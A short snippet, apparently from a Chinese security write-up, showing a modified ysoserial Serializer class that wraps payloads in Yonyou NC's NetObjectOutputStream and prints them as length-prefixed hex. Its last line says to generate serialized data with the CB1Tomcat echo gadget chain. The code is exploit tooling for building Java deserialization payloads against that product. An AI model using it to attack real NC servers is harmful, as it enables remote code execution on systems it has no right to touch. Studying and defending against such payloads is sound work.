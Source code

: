 ```php
package ysoserial;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.util.concurrent.Callable;

import nc.bs.framework.comn.NetObjectOutputStream;
import javax.xml.bind.DatatypeConverter;

public class Serializer implements Callable<byte[]> {
    private final Object object;

    public Serializer(Object object) {
        this.object = object;
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);

        byte[] bytes1 = {(byte) ((out.size() >>> 24) & 255), (byte) ((out.size() >>> 16) & 255), (byte) ((out.size() >>> 8) & 255), (byte) ((out.size() >>> 0) & 255)};
        byte[] bytes2 = out.toByteArray();
        // 将字节数组转换为十六进制字符串并输出
        String hexString1 = DatatypeConverter.printHexBinary(bytes1);
        String hexString2 = DatatypeConverter.printHexBinary(bytes2);
        System.out.println(hexString1+hexString2);

        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
//        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        final NetObjectOutputStream objOut = new NetObjectOutputStream(out);
        objOut.writeObject(obj);
        objOut.finish();
        objOut.flush();
    }

    public byte[] call() throws Exception {
        return serialize(object);
    }
}
```

在项目 main 目录下编写测试文件，调用 CB1Tomcat 回显链生成序列化数据。  
